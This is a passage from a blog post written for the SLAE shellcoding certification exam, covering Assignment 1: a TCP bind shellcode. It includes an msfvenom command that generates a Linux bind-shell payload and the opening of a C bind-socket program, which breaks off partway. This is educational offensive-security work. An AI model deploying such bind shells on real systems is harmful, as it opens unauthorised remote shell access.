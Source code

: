 ```yaml
---
layout: post
title:  "SLAE Assignment 1 - TCP Bind Shellcode"
date:   2017-04-13
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  

Hello everybody,  
  
Here we are for a new set of posts dealing with the exam of the great course [Assembly Language and Shellcoding on Linux](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/). Thanks to Vivek Ramachandran and his team for all of this work.  
  
So let's rumble!  
  
## Assignment 1:  
  
Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment1).  
  
**Our Goal:**  
> *Create a Shell_Bind_TCP shellcode executing:*
 - *binds to a port that should be easily configurable*
 - *executes shell on incoming connection*
 - *easily configure the listening port*
  
If we want to create a TCP Bind shellcode from scratch, what are our options?:  

**1)** The lazy one; creating a shellcode thanks to msfvenom  
```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=8080 EXITFUNC=THREAD -f raw | ndisasm -u -
```

But it is quite too easy.  
  
**2)** Creating our own ELF thanks to a C program that will help to understand how the final shellcode will work.  
  
We will choose this last option.  
  
Here is our C source code:  
```c
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
 
int main(void)
{
        int clientfd, sockfd;
        int dstport = 8080;
        struct sockaddr_in mysockaddr;
 
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
        mysockaddr.sin_family = AF_INET; //2
        mysockaddr.sin_port = htons(dstport); //8080
        mysockaddr.sin_addr.s_addr = INADDR_ANY; //0
 
        bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
 
```